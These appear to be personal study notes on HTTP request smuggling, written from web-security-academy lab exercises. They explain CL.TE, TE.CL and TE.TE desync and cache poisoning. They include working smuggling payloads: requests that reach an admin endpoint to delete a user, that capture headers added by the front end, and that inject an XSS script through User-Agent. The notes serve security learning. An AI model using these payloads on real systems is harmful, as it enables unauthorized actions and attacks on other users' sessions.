 HTTP Request Smuggling:
	It is crucial that the fornt end and backend systems agree about the boundaries between requests otherwise the attacker might able to send an ambigiour request that gets interpreted differently by the front end and back end systems

	a attacker can cause part of their front end request to be interpreted by the backend server as start of the next request. it is efferctively prepended to the next request and so can interfere with the way the application processes that request.

	vulnerabilities arise because the HTTP specification provides two different ways to specify where a request ends

	Content-Length
		it specifies the length of the message body in bytes
	POST /test HTTP/1.1
	host: test.com
	content-Type: application/plain
	Content-Length: 11

	q=smuggling
		
	Transfer-Encoding
		it is used to specify that the message body uses chunked encoding. this means that the message body contains one or more chucks of data. each chuck consists fo the chunk size in bytes(expressed in hexadecimal), followed by a newline, follwed by the chunk contents. the message is terminated with a chuck of size zero 

	Post /test HTTP/1.1
	Host: test.com
	Content-Type: application/plain
	Transfer-Encoding: chunked

	b
	q=smuggling
	0

the issue arises when both the headers are used in a request, as standard if both are there, content-lenght header is ignored, but 

most servers do not support the transder encodng header in request
thus making front end and back end servers behave diffrenetly 

CL.TE: the front end server uses the content lenght header and the backend server uses the transfer encoding header

TE.CL: the front end server uses the Transfer-encoding header and the backend uses the content-length header

TE.TE: the front and back both support transfer-encoding header , but one of the servers can be induced not to process it by obfuscating the header in some way.

Content-Length: 26 // this take home body size 
Transfer-Encoding: chunked

0 //back end take this and ends the request body here and places the rest of the body in the next incoming request

GET / HTTP/1.1
X: XX

Finding methods:
send  a request with no ending '0' thus the server will wait for the next chunk, thus causing a noticble difference

send a request with extra content length, thus the back end will wait for the full body to arrive

Transfer-Encoding: chunked\r\n
Content-Length: 4\r\n
\r\n
5d\r\n
GET /test HTTP/1.1\r\n
Host: ac871fd61e3fb1e7800c45f100880027.web-security-academy.net\r\n
Foo: X\r\n
\r\n
0\r\n
\r\n

Content-Length: 77
Transfer-Encoding: chunked

0


GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
X: X

0

Content-Length: 4
Transfer-Encoding: chunked

43
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
X: X

0

some front end server will rewrite the request by adding additional headers, to get those, we can pass the next request to valid post request that spits the value out the sent value in response

Content-Length: 170

Transfer-Encoding: chunked



0



POST / HTTP/1.1
Host: ac3f1f3c1e4005308070012e005500b5.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 110


search=test

the next requests body and headers are appened to the search term

Content-Length: 144
Transfer-Encoding: chunked

0

GET /post?postId=10 HTTP/1.1
Host: aca51ffa1ecd3e7180f38ca7005c00d1.web-security-academy.net
User-Agent: "><script>alert(1)</script>
X:X



	
web cache poisoning: the attacker causes the application to store some malicious content in the cache and the this content is server from the cache to other application users

web cache deception: the attacker causes the application to store some sentivite content belonggin to another user in the cache and the attakcer then retirives this content from the cache

thus allows the attacker to store a diffrent output into the cache for the next static file that is getting loaded inthe intial request

after the atttacker can load the static file to get the output of the smuggled page that was cached instead
